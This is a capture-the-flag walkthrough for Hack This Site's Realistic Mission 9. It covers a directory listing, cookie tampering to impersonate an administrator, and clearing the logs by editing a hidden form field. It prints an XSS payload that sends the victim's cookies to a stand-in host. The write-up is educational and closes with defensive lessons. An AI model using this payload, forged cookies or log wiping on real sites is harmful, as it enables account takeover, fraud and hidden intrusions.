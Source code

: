 # Mission 9
https://www.hackthissite.org/playlevel/9/

- [Overview](#overview)
- [Solution](#solution)
  * [Details From the Site Layout](#details-from-the-site-layout)
  * [Paying Our Friend's Salary](#paying-our-friend-s-salary)
    + [Stealing Your Boss' Cookies](#stealing-your-boss--cookies)
  * [Clearing the Logs](#clearing-the-logs)
- [Key Concepts](#key-concepts)
- [Key Ideas](#key-ideas)

## Overview
The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
### Details From the Site Layout
Before focusing on paying the salary let's take stock of the site itself. Take a look at the pages we can access without needing to log in. Contact leads to a generic form to send a message to the company, nothing fancy there. But the Mailing List and Demo pages drop an important clue. On the Mailing List page, it's the form which has this line: `<input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">`. On the Demo page, the download link has this line: `<a href="./files/downloads/CrappyDemo.exe.zip"><font color="BLACK"><b>HERE!</b></font></a>`.

Try accessing https://www.hackthissite.org/playlevel/9/files/ and boom, directory listing is on. Click through the folders and you'll notice a log file at ./files/logs/logs.txt. It seems to record login data. Thinking back to our steps in [Realistic Mission 8](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_08.md), we'll probably need to clear logs in this mission as well once we pay our friend.

We've learned an important insight, but for now, let's focus on paying our friend's salary.

### Paying Our Friend's Salary
Log into our friend's account from the CrappySoft homepage using the account credentials he provided. Once we're logged in, you'll notice a cookie gets saved to our browser with the following information:
* intID, currently equal to 2
* strPassword, which seems to be the MD5 hash of our friend's password
* strUsername, which is set to r-conner%40crappysoft.com (note the URL encoding for the @ sign)

There's also now a link on the lefthand side of the page labeled Pay Salaries. Click it right now and you'll get a message saying: You are not an administrator.

I spent a while looking into [privilege escalation](https://portswigger.net/web-security/access-control), my thinking being that maybe there was some way to give our friend's account administrator privileges and then be able to pay his salary. That approach didn't really pan out, but it turns out I was on the right track.

#### Stealing Your Boss' Cookies
It turns out there's more than you might initially think to the site's Private Message functionality. The functionality is actually vulnerable to a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS) attack, meaning we can inject JavaScript into a page and execute it in another user's browser. In this case, we can use XSS to steal the boss' login cookie.

Compose a message to m-crap (owner), add a subject, add the following message body, and click Send:
`javascript:void(window.location='http://example.com/stealcookies.php?'+document.cookie)`

It's beyond the scope of this mission to actually execute an XSS attack, so we've got to simulate it and think through it to the best of our ability. When the boss opens your message, his browser will execute this code (because the web application doesn't properly filter out rogue JavaScript) and it will redirect his browser to http://example.com/stealcookies.php?[his_login_cookie]. In this simulation the idea would be that you control the site in question – which in this case is example.com – and stealcookies.php is a script which would save your boss' cookie for you to retrieve later. The script might just save the data to a database, it might email it to you, or something along those lines.

Once you send the message you'll see some more text appear on the page saying something like this:\
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:\
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;

Again, it's beyond the scope of this mission for us to actually execute a XSS attack, so we just got the cookie information provided to us. We could have probably guessed the boss would have intID=1, but we wouldn't have known his password (either the plain text version or the hashed version). But now we've got it all. Update your cookie to reflect the indID, strPassword, and strUsername values we've now obtained and we're now effectively logged in as the boss. Click the Pay Salaries link and click the Pay button next to your friend's email address to pay him.

### Clearing the Logs
Once we've paid our friend we'll see a message telling us to clean the logs by subscribing to them. This goes back to what we saw earlier, before logging in. We need to clear the site logs to help cover our tracks.

Luckily, our initial investigation makes it much easier for us to figure out how to accomplish these steps. If we go to the Mailing List page, there's this message:
(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)

We identified previously that the logs file we're trying to clear is located at ./files/logs/logs.txt. So, change the value of the hidden input type to that file path, click Subscribe, and you're done. This functionality will clear the log file and we've completed the mission.

## Key Concepts
Cookie tampering
Cookie stealing
Cross-site scripting (XSS)

## Key Ideas
It shouldn't be so easy for someone to tamper with a cookie, and that was what really allowed us to complete the mission. Modern practices call for things like authentication cookies which the backend validates to make sure a user isn't editing a cookie's values in their browser.

But this mission also gave us an example of XSS, which continues to be a major web security issue. Any time someone can inject rogue JavaScript onto a page which can then be executed in the browser of another user, that's a big problem. There's no shortage of malicious things an attacker can do using an XSS bug, but stealing cookies is a common one. That's why companies often allocate major resources -- including paying cash rewards -- to people who identify and report XSS vulnerabilities.